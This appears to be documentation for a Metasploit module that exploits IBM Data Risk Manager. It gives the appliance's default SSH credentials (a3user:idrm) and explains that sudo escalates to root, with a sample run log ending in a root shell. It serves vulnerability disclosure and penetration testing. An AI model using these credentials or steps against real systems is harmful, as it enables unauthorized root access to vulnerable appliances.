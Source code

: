 ## Vulnerable Application

This module abuses a known default password in IBM Data Risk Manager. The 'a3user' has the default password 'idrm' and allows an attacker to log in to the virtual appliance via SSH.
This can be escalated to full root access, as 'a3user' has `sudo` access with the default password.
At the time of disclosure this was an 0day, but it was later confirmed and patched by IBM. Versions <= 2.0.6.1 are confirmed to be vulnerable.

### Vulnerability information
For more information about the vulnerability, check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS`!

## Scenarios

A successful exploit will look like this:

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > run
[*] 10.22.22.212:22 - Attempting to login to the IBM Data Risk Manager appliance...
[+] 10.22.22.212:22 - Login Successful (a3user:idrm)
[*] Found shell.
[*] Command shell session 5 opened (10.22.22.1:45489 -> 10.22.22.212:22) at 2020-04-22 12:10:13 +0700
[*] 10.22.22.212:22 - Escalating privileges to root, please wait a few seconds...
[+] 10.22.22.212:22 - Done, enjoy your root shell!
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
